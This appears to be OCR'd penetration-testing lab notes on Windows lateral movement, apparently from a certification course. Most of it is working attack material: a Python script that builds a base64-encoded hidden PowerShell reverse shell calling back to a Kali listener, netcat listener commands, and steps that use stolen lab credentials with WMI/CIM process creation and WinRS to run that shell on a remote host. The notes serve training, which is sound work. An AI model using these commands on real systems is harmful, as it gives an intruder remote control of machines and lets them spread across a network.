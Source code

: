 ```python
payload = '$client = New-Object
System.Net.Sockets.TCPClient("[KALI IP]",[KALI LISTENER PORT]);$stream =
$client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0,
$bytes.Length)) -ne 0){;$data = (New-Object -TypeName
System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-
String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte =
([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Leng
th);$stream.Flush()};$client.Close()'

cmd = "powershell -nop -w hidden -e " +
base64.b64encode(payload.encode('utf16')[2:]).decode()
print(cmd)
```

Set up listener on Kali.
	`nc -nvlp 443`
	Run PS script on Windows machine.
	`$username = 'jen';`
	`$password = 'Nexus123!';`
	`$secureString = ConvertTo-SecureString $password -AsPlaintext -Force;`
	`$credential = New-Object System.Management.Automation.PSCredential $username, $secureString;`
	`$Options = New-CimSessionOption -Protocol DCOM`
	`$Session = New-Cimsession -ComputerName 192.168.50.73 -Credential $credential -SessionOption $Options`
	`$Command = 'powershell -nop -w hidden -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAF MAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQA5AD...HUAcwBoACgAKQB9ADsAJABjAGwAaQBlAG4AdAAuAEMAbABvAHMAZQAoACkA';` (put the generated encoded script here)
	`Invoke-CimMethod -CimSession $Session -ClassName Win32_Process -MethodName Create -Arguments @{CommandLine =$Command};`

### WinRS
- Prerequisite:
	- Credentials of a domain user who is a part of the Administrators or Remote Management Users group on the target host
	- Shell access
- Method 1 - cmd:
	Set up listener on Kali:
	`nc -nvlp 443`
	Run command on cmd:
	`winrs -r:files04 -u:jen -p:Nexus123! "powershell -nop -w hidden -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQA5AD...HUAcwBoACgAKQB9ADsAJABjAGwAaQBlAG4AdAAuAEMAbABvAHMAZQAoACkA"` (put the generated reverse shell payload here)
- Method 2 - PowerShell:
	`$username = 'jen';`
	`$password = 'Nexus123!';`
	`$secureString = ConvertTo-SecureString $password -AsPlaintext -Force;`
	`$credential = New-Object System.Management.Automation.PSCredential $username, $secureString;`
	`New-PSSession -ComputerName 192.168.50.73 -Credential $credential`
	`Enter-PSSession 1`
